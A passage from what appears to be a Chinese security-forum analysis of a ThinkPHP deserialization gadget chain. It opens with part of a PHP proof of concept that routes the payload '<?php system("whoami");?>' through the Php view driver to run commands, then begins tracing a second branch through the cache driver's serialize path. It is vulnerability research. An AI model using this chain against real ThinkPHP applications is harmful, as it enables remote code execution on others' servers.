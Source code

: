 ```php
            $this->domain = "<?php system('whoami');?>";
            $this->app = new Middleware();
            $this->route = new Validate();
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display'];
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "2333";
        }
    }
}

namespace think\view\driver {
    class Php
    {
        public function __construct()
        {
        }
    }
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-1e1f6a029f8af3aec1feef5de7769f7d673cda47.png)

##### 分支2.2

这里同样也是跟进到了刚刚的那个`set`方法，然后继续跟进`getExpireTime` `getCacheKey`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-40621b99a990f234150d7ca2948220fd2ff1f894.png)

`getCacheKey`这里没有继续利用字符拼接，只是让`$this->option['hash_type']`不能为空，是为了进入`serialize`方法，`src/think/cache/Driver.php`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-e587cc856cc3fcebaa064542f72823849af12e3b.png)

跟进
